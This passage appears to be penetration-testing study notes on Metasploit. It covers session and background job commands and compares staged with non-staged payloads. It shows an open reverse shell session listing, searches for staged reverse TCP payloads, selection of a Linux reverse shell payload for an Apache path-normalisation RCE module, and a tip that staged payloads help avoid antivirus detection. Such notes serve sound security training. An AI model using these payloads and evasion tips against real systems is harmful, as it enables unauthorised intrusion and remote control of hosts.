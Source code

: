 ### Session and Jobs

Sessions are used to interact and manage access to successfully exploited targets, while jobs are used to run modules or features in the background.

List and interact with and kill sessions

* -l list
* -i index interact with session
* -k index kill session

```shell
# Session to background or close N
^Z
Background session 2? [y/N]  N

sessions -l
  2         shell x64/linux               192.168.55.110:4443 -> 192.168.50.16:35534 (192.168.50.16)

sessions -i 2
  [*] Starting interaction with 2..

 sessions -k 2
```

Run as job in the Background

```plain
run -j
sessions -l
sessions -i 2
```

## Metasploit Payloads

A *non-staged payload* is a 'all-in-one' solution, more stable but **BIGGER**, because it contains the exploit and the shell code. A *staged payload* consists of **SMALLER** stage part and larger rest of the exploit.

Scenarios

* Exploit space limitations -> *staged payload*
* Avoid anti virus detection -> *staged payload*
* Avoid network traffic -> *non-staged payload*
* Use with meterpreter -> *non-staged payload*
* else *non-staged payload*

```shell
msf6 exploit(multi/http/apache_normalize_path_rce) >

# '/' after shell indicates stage payloads
show payloads
search type:payload
search type:payload "windows x86 staged reverse TCP"
search type:payload "linux x64 staged reverse TCP"


 #   Name                                              Disclosure Date  Rank    Check  Description
 -   ----                                              ---------------  ----    -----  -----------
 15  payload/linux/x64/shell/reverse_tcp                                normal  No     Linux Command Shell, Reverse TCP Stager
 20  payload/linux/x64/shell_reverse_tcp                                normal  No     Linux Command Shell, Reverse TCP Inline
 ...

 set payload 15
 show options
```